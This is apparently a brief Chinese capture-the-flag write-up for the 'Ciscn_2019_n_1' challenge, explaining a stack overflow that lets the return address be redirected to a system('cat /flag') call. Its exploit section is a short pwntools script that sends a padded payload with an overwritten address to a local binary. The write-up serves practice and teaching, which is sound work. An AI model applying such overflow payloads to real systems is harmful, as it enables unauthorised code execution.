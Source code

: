 ```yaml
---
title: "Ciscn_2019_n_1"
description: ""
date: 2023-03-29T04:25:55+08:00
lastmod: 2023-03-29T04:25:55+08:00
draft: false
images: []
weight: 1
toc: true
type: docs
---
```


## 0x01 分析

![a8aed923a28e0698e3ed01725f26a47c](images/a8aed923a28e0698e3ed01725f26a47c.png)  

存在溢出点，可以直接覆盖函数返回地址为 `system("cat /flag")`

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
payload = b'a'*56 + p32(0x4006BE)
o.sendline(payload)
o.interactive()
```

![f113b22bf228f5af0121ac0630ce02f2](images/f113b22bf228f5af0121ac0630ce02f2.png)
